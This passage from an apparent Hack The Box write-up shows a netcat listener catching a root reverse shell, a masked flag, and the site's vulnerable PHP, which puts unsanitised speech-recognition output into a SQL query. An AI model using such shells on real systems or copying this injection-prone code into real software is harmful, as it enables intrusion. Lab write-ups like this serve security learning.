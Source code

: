     [!] Command successfully executed
    

It takes a minute or two to run to completion, but when it does:

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.163.
    Ncat: Connection from 10.10.10.163:44434.
    bash: cannot set terminal process group (1823): Inappropriate ioctl for device
    bash: no job control in this shell
    root@AI:~#
    

And I can grab `root.txt`:

    
    
    root@AI:~# cat root.txt    
    0ed04f28************************
    

## Beyond Root

### AI Website

I wanted to look into how the website was handing voice, and why I couldn’t
get any query to actually return results except for with SQLi. Once I got a
shell as alexa, I checked out the `/var/www/html` directory:

    
    
    alexa@AI:/var/www/html$ ls
    5075140835d0bc504791c76b04c33d2b.py  about.php  ai.php  contact.php  db.php  images  index.php  intelligence.php  uploads
    

It’s interesting to see a Python file there. I’ll get to that in a second.
`ai.php` is what I was POSTing wave files to. At the top of it, there’s the
code that handles that:

    
    
    <?php
    error_reporting(E_ALL);
    include("db.php");
    if(isset($_POST["submit"]))
    {
            $file = rand(0,1000000).'.wav';
            $target_file = "uploads/".$file;
            if(move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file))
            {
                    $output = exec("/usr/bin/python 5075140835d0bc504791c76b04c33d2b.py $target_file");
                    $sql = "select output from alexa where query='$output'";
                    $result = mysqli_query($conn,$sql);
                    if($result->num_rows > 0)
                    {
                            $row = mysqli_fetch_assoc($result);
                            $out = "Query result : ".$row["output"];
                    }
    